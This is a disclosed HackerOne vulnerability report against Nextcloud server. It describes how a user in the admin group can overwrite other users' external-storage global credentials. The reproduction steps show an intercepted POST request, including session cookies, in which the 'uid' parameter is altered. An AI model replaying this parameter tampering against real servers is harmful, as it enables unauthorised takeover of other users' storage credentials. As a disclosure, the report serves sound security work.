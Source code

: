 # Admins can change authentication details of user configured external storage

## Report Details
- **Report ID**: 2107934
- **URL**: https://hackerone.com/reports/2107934
- **State**: Closed
- **Severity**: low
- **Submitted**: 2023-08-14T00:12:27.454Z
- **Disclosed**: 2023-12-21T05:17:43.612Z

## Reporter
- **Username**: st0nzyy
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
## Summary:

After some testing in nextcloud server, i found improper access control make users in admin group to change any "Global credentials" for admin/user external storage

Note* this issue affect ```admin to admin & admin to user.```

## Steps To Reproduce:

- As a malicious admin user
- Navigate to External storage
- At the global credentials input any random valid credentials for example POC:anything
- Intercept the following request
```
POST /nextcloud/index.php/apps/files_external/globalcredentials HTTP/1.1
Host: 192.168.56.103
Content-Length: 43
Accept: application/json, text/javascript, */*; q=0.01
requesttoken: fFwUgm3xqnKq1YBdX5pj8eskJP+6VwfEYSUkhdEbADE=:GQwn4z6nyTrCuOVtbe9Vg6pnfIf/HXezJhNU3P50bFQ=
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
OCS-APIREQUEST: true
Content-Type: application/json
Origin: http://192.168.56.103
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: oc_sessionPassphrase=B4MUb9O8t71%2BDkT%2FXpeTcrJgb5FoSTRXXKwlRJTJKQ027je%2F7KT2XbFCPs6hU4WgjzTv6iQ1GZfwvVXQ7QsiBM%2FJL5pKT8W4yj4ZU237V4yWGWCERO8hHjEYCnHSp671; nc_sameSiteCookielax=true; nc_sameSiteCookiestrict=true; oc6xi9hj9sei=irdv8ml4hrgm7gg57v104tj20t; nc_username=nvz; nc_token=o4gwXiPvdr4j3Ba7glzBLoN%2FdhDu6Uvo; nc_session_id=irdv8ml4hrgm7gg57v104tj20t
Connection: close

{"uid":"nvz","user":"nvz","password":"123"}
```

- Change the ```uid``` parameter to any other user or  admin 

- As a result we notice the following response
```true```
- And by navigating to the user effected we notice the Global Credentials been changed

## Supporting Material/References:
[list any additional material (e.g. screenshots, logs, etc.)]

  * [attachment / reference]

https://docs.nextcloud.com/server/27/admin_manual/configuration_files/external_storage_configuration_gui.html#storage-configuration

## Impact

users in admin group can change any "Global credentials" for admin/user external storage

## Attachments
- users-groups.jpg
- externalstorage.png
- full-image.JPG

